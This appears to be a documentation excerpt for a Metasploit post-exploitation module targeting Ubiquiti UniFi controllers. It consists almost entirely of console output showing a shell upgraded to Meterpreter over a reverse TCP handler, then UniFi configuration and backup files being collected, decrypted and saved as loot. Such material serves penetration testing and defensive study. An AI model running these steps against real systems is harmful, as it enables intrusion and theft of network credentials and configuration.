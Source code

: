 ```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (unifi.rb)> sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 1.1.1.1:4433 
[*] Sending stage (985320 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4433 -> 2.2.2.2:37124) at 2019-03-10 15:58:25 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
```

#### Module

```
resource (unifi.rb)> use post/multi/gather/ubiquiti_unifi_backup
resource (unifi.rb)> set verbose true
verbose => true
resource (unifi.rb)> set session 2
session => 2
resource (unifi.rb)> run

[*] File /var/lib/unifi/system.properties saved to /root/.msf4/loot/20190310155835_default_2.2.2.2_ubiquiti.system._487688.txt
[+] Read UniFi Controller file /var/lib/unifi/system.properties
[-] Directory doesn't exist: /data/autobackup
[+] Found backup folder: /var/lib/unifi/backup
[+] File /var/lib/unifi/backup/5.10.19.unf saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_802011.unf
[+] File 5.10.19.unf DECRYPTED and saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_933774.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File /var/lib/unifi/backup/5.10.19.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_271407.zip.
[*] Post module execution completed
```

#### Details

```
msf5 post(multi/gather/ubiquiti_unifi_backup) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 18.04 (Linux 4.18.0-16-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 2...
msf5 post(multi/gather/ubiquiti_unifi_backup) > loot

Loot
====

host           service  type                                      name                                                          content          info                                                   path
----           -------  ----                                      ----                                                          -------          ----                                                   ----
```